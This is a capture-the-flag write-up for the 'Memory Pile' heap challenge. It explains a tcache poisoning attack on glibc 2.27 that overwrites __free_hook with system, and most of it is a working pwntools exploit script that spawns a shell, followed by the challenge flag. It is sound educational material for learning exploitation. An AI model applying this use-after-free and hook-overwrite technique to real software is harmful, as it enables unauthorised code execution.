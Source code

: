 # Memory Pile

## Task

Memory leaks can be fun, but do you know what's even more fun? Heap exploits!

* [memory pile](https://imaginaryctf.org/r/4235-memory_pile)
* [libc](https://imaginaryctf.org/r/9C87-libc-2.27.so)
* [ld](https://imaginaryctf.org/r/169E-ld-2.27.so)
* nc chal.imaginaryctf.org 42007

## Solution

We see the libc, we see it's heap, so tcache go brr.

First we allocate something so we don't get
some random free. Then we deallocate that to get get
the block emptied and since the old pointer didn't get cleared
we get control over the next pointer in the empty block.
We then want that to point to the free hook pointer in libc,
so we just write that address, allocate once such that
the next pointer is used and allocate again to get control
over the memory at the next pointer (so the free hook)

We then overwrite that with the address to libc and call
free on a block which contains `/bin/sh` to effectively
execute `system("/bin/sh")`

```python
io = start()

libc = ELF("./libc-2.27.so")

io.recvline()
io.recvline()
printf = int(io.recvline(),0)
libc.address = printf-libc.sym.printf
log.info("Got libc: %x", libc.address)
log.info("Got libc: %x", libc.sym.__free_hook)

def acquire(idx):
    io.recvuntil(b"Choose wisely > ")
    io.sendline(b"1")
    io.recvuntil(b"responsibility > ")
    io.sendline(str(idx).encode())
def release(idx):
    io.recvuntil(b"Choose wisely > ")
    io.sendline(b"2")
    io.recvuntil(b"responsibility > ")
    io.sendline(str(idx).encode())
def fill(idx,contents):
    io.recvuntil(b"Choose wisely > ")
    io.sendline(b"3") # fill
    io.recvuntil(b"responsibility > ")
    io.sendline(str(idx).encode())
    io.recvuntil(b"boss > ")
    io.sendline(contents)


acquire(0)
release(0)
fill(0, p64(libc.sym.__free_hook))
acquire(0)
acquire(0)
fill(0, p64(libc.sym.system))
acquire(0)
fill(0, b"/bin/sh")
release(0)

io.interactive()

```

And the flag:

`ictf{hemlock_for_the_tcache}`
